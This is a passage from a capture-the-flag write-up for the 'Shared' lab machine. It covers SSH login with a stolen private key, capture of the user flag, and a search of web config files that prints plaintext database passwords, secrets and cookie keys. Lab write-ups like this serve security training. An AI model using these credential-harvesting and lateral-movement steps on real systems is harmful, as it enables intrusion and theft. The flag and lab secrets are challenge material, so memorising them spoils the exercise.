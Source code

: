 Write to file, login and grab ``user.txt``.
```bash
➜  shared vim dan-id_rsa
➜  shared chmod 400 dan-id_rsa 
➜  shared ssh dan_smith@shared.htb -i dan-id_rsa 

dan_smith@shared:~$ id && cat user.txt
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
ac1d7c930a51968f97efe55963ecfe62
```

---------------------------

# ROOT
### Step 1
With manual enumeration we first see that `dan_smith` is part of `sysadmin` group, lets look for files owned by that group.
```bash
dan_smith@shared:/$ find / -group sysadmin 2> /dev/null
/usr/local/bin/redis_connector_dev
```

If we remember from earlier when we ran `pspy64` we found another line containing **redis**:
```bash
2022/08/25 06:58:06 CMD: UID=0    PID=8502   | pidof redis-server 
```

We can access the service through `redis-cli`, however everything we throw at it returns `(error) NOAUTH Authentication required.`.
Lets start hunting for credentials. Most likely we can find SQL creds somewhere in `/var/www/`.

```bash
dan_smith@shared:/var/www/checkout.shared.htb/config$ cat db.php 
<?php
define('DBHOST','localhost');
define('DBUSER','checkout');
define('DBPWD','a54$K_M4?DdT^HUk');
define('DBNAME','checkout');
?>

dan_smith@shared:/var/www/shared.htb/ps/app/config$ cat parameters.php 
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'pshop',
    'database_user' => 'pshop',
    'database_password' => 'T*k#cbND_C*WrQ9h',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,
    'mailer_password' => NULL,
    'secret' => 'JcFbTGrwO5Jm2jLiGt5Da0PThwPCWPpht34Afzg9pehekQ19TxvUeU5Scmr9aH3J',
    'ps_caching' => 'CacheMemcache',
    'ps_cache_enable' => false,
    'ps_creation_date' => '2022-03-06',
    'locale' => 'en-US',
    'use_debug_toolbar' => true,
    'cookie_key' => 'z7FJgNKKsqvFAkvpIRzx9NfTVNWTMdZhnpuP8Xh6aivNDB1vnPaByT9g6uU3OFQO',
    'cookie_iv' => 'aFoWzPnUUEBiTNd4t4uN66XeS37p3eUp',
    'new_cookie_key' => 'def00000f935fcfbe80eeeb1a4c68e98f394b3685e9b325f43aa713d659b0fb201d9045aa39fd9499c3498b3c1309aa69fcae9c7d7c257162f8336765eb694420d2d8ff2',
```
